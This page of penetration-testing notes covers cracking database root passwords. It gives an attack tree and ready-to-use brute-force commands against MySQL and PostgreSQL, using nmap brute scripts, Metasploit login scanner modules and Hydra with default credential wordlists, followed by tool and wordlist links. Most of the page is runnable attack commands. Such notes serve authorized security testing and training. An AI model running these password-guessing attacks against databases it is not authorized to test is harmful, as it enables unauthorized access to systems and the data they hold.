 # Cracking the database root password

## Attack tree

```text
1 Cracking the database root password
    1.1 Try logging in as root without password and with default passwords
    1.2 Try common passwords
    1.3 Use a brute forcing tool
        1.3.1 External - run a tool
        1.3.2 Internal (having an account on the server that hosts the database) - run a hash cracker like John the Ripper against the database’s password file. The location of the hash file is different depending on the database.
    1.4 If it is Open Source Software, check the source code on the repository host.
```

## Nmap

`nmap` uses default password and user lists, but do plug in other lists:

### MySQL
Reduce the pool of users for the brute-force attack by [user enumeration](../enum/databases.md).

```text
# nmap --script mysql-brute <target>
--script-args userdb=<path> - plug in list of logins
--script-args passdb=<path> - plug in list of passwords
```

### PostgreSQL
```text
# nmap -p 5432 --script pgsql-brute <target>
```

## Metasploit

### MySQL
```text
msf > use auxiliary/scanner/mysql/mysql_login
msf auxiliary(mysql_login) > set USER_FILE /root/login/logins
msf auxiliary(mysql_login) > set PASS_FILE /root/login/password
msf auxiliary(mysql_login) > set RHOSTS <target>
msf auxiliary(mysql_login) > exploit
```

### PostgreSQL
```text
msf > use auxiliary/scanner/postgres/postgres_login
msf auxiliary(postgres_login) > set BLANK_PASSWORDS True
msf auxiliary(postgres_login) > set STOP_ON_SUCCESS True
msf auxiliary(postgres_login) > set threads 100
msf auxiliary(postgres_login) > set RHOSTS <target>
msf auxiliary(postgres_login) > run
```

## Hydra

### PostgreSQL

```text
# hydra -L /path/to/user.txt -P /path/to/pass.txt <target> postgres
# hydra -L /usr/share/metasploit-framework/data/wordlists/postgres_default_user.txt -P /usr/share/metasploit-framework/data/wordlists/postgres_default_pass.txt <target> postgres
-L: path for username list
-P: path for the password list
```

## Tools

* [Metasploit framework](https://www.kali.org/tools/metasploit-framework/)
* [Hydra](https://www.kali.org/tools/hydra/)
* [Medusa](https://www.kali.org/tools/medusa/)
* [Patator](https://www.kali.org/tools/patator/)
* [Ncrack](https://www.kali.org/tools/ncrack/)

## Resources

* [Collected common password lists](https://github.com/danielmiessler/SecLists/tree/master/Passwords)
* [SecLists](https://github.com/danielmiessler/SecLists)
* [Script pgsql-brute](https://nmap.org/nsedoc/scripts/pgsql-brute.html)
* [Script mysql-brute](https://nmap.org/nsedoc/scripts/mysql-brute.html)

